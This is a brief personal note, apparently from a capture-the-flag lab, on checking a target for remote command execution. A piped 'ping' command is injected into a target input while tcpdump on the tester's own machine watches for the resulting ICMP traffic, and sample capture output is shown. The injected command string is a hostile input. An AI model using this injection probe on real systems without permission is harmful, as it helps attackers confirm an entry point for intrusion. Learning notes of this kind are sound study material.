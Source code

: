 mostly using this to check if there is RCE

now


we give the input on taget

On target system:
test | ping -n 5 <my IP here> 

On my local system:
tcpdump -i tun0 icmp


now after i put he ping command on target system i must get something like this

─(root💀kali)-[~/Desktop/THM]
└─# tcpdump -i tun0 icmp               
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:24:21.790481 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 357, length 40
22:24:21.790502 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 357, length 40
22:24:22.850391 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 358, length 40
22:24:22.850426 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 358, length 40
22:24:23.866375 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 359, length 40
22:24:23.866414 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 359, length 40
22:24:24.882285 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 365, length 40
22:24:24.882319 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 365, length 40
22:24:25.896877 IP 10.10.10.152 > 10.10.14.32: ICMP echo request, id 1, seq 366, length 40
22:24:25.896904 IP 10.10.14.32 > 10.10.10.152: ICMP echo reply, id 1, seq 366, length 40
